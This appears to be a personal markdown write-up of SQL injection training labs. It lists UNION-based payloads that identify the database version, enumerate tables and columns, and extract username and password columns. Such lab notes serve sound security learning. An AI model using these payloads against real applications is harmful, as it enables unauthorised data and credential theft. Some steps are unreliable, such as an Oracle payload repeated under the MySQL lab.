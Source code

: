 Table of contents
---
[toc]
# Examining the database in SQL injection attacks

Query to examining the database version

| Database type | Query |
| ------------- | ------| 
|Microsoft 		|	SELECT @@version |
|Oracle 		|	SELECT * FROM v$version |
|PostgreSQL 	| 	SELECT version() |
|MySQL 			|	SELECT @@version |

# Labs
## Lab #1: SQL injection attack, querying the database type and version on Oracle

Steps: 

1. Determine the number of column
```
category=Pets' ORDER BY 1,2 --
```

2. Determine the columns data type
```
category=Pets' UNION SELECT 'a','b' FROM DUAL --
```

3. Retrieve Oracle banner
```
category=Pets' UNION SELECT banner, null FROM v$version --
```
```
UNION SELECT * FROM v$version where banner LIKE 'oracle%'--

```

## Lab #2: SQL injection attack, querying the database type and version on MySQL and Microsoft


Steps

1. Determine the number of column
```
category=Pets' ORDER BY 1,2 #
```

2. Determine the columns data type
```
category=Pets' UNION SELECT 'a','b' #
```

3. Retrieve Oracle database banner
```
category=Pets' UNION SELECT banner, null FROM v$version --
```

`#` = %23

## Lab #2: SQL injection attack, listing the database contents on non-Oracle databases

Steps:

1. Determine the number of columns and column data type
```
category=Pets' order by 1, 2 --
category=Pets' union select 'a', 'a' --
```

2. Find all table name contains '%user%' | `%` = %25
```
category=Pets' union select table_name, 'a' from information_schema.tables where table_name like '%user%'--
```

3. List the table columns
```
category=Pets' union select table_name, column_name from information_schema.columns where table_name='pg_user' --
category=Pets' union select table_name, column_name from information_schema.columns where table_name='users_rfankd' -- 
```

4. Retrieve the table contents

```
category=Pets' union select username_grhpij, password_rhddiy from users_rfankd -- 

category=Pets' union select username_grhpij || ':' || password_rhddiy, null from users_rfankd -- 
```

## Lab #3: SQL injection attack, listing the database contents on Oracle

steps:
1. Determine the number of columns and columns data type
```
' ORDER BY 1,2 
' UNION SELECT 'a', 'a' FROM DUAL --
```

2. Examine the database type.
```
' UNION SELECT banner ,NULL FROM v$version --
```

3. Find all table contains 'U%' | `%` = %25
```
' UNION SELECT table_name,'a' FROM all_tables WHERE table_name like 'U%25' --
```

4. List the table columns
```
' UNION SELECT table_name, column_name FROM all_tab_columns WHERE table_name = 'USERS_WNFXKC'
``` 

5. Retrieve the table contents
```
' UNION SELECT USERNAME_ZATYRE, PASSWORD_FIACJD FROM USERS_WNFXKC --
```
